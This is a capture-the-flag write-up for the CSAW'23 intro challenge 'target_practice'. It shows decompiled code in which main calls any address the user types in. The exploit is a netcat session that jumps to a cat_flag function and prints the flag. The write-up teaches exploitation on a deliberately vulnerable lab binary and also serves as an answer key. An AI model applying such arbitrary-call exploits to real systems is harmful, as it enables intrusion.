 # CSAW'23

## target_practice

> 
> Aim carefully... This pwnie can JUMP!
>
>  Author: ElykDeer
>
> [`target_practice`](target_practice)

Tags: _intro_

## Solution
For this challenge we get a binary which we can analyze with `Ghidra`. We can see that the `main` requires the user to input a number in hexadecimal format (the format string is actually `%lx`). Then `dereferences` the number and invokes a function call. This basically means we can enter any address to any function and let `main` call it for us.

```c
undefined8 main(void)
{
  long in_FS_OFFSET;
  code *local_20;
  code *local_18;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stdin,(char *)0x0,2,0);
  fflush(stdout);
  fflush(stdin);
  printf("Aim carefully.... ");
  __isoc99_scanf(&DAT_00400895,&local_20);
  local_18 = local_20;
  (*local_20)();
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

If we go through the rest of the functions we find `cat_flag`. Now this is a good candidate to call. In Ghidra we can see the function is at `0x00400717` and since the application is built with no `PIE` we can just use this address as it (as the image base doesn't change).

```c
void cat_flag(void)
{
  system("cat /flag.txt");
  return;
}
```

Let's try this...

```bash
$ nc intro.csaw.io 31138
Aim carefully.... 0x00400717
csawctf{y0ure_a_m4s7er4im3r}
```

Flag `csawctf{y0ure_a_m4s7er4im3r}`